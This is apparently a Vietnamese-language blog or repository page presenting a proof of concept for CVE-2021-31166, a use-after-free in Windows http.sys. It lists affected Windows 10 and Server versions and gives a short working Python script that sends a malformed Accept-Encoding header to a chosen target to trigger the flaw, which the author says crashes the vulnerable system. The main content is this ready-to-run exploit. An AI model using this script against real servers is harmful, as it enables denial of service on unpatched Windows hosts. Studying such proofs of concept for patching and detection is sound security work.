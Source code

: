 ```yaml
---
title: CVE-2021-31166
date: 16/6/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```

[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

## Mô Tả 

Đây là bằng chứng về khái niệm cho CVE-2021-31166 ("Lỗ hổng thực thi mã từ xa của ngăn xếp giao thức HTTP"), một điểm truy cập sử dụng sau khi miễn phí trong `http.sys` được Microsoft vá vào tháng 5 năm 2021.

Theo như tôi biết, nó chỉ có thể kích hoạt chương trình bị lỗi, hãy sử dụng nó một cách thận trọng.


## Các nền tảng bị ảnh hưởng 
+ Windows Server, version 20H2 (Server Core Installation)

+ Windows 10 Version 20H2 for ARM64-based Systems

+ Windows 10 Version 20H2 for 32-bit Systems

+ Windows 10 Version 20H2 for x64-based Systems

+ Windows Server, version 2004 (Server Core installation)

+ Windows 10 Version 2004 for x64-based Systems

+ Windows 10 Version 2004 for ARM64-based Systems

+ Windows 10 Version 2004 for 32-bit Systems

# Demo
![demo](https://raw.githubusercontent.com/0vercl0k/CVE-2021-31166/main/pics/trigger.gif)
## Python

---
```python 
# python file.py --target=ip
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('PoC for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()

```

---

## Thanks :D
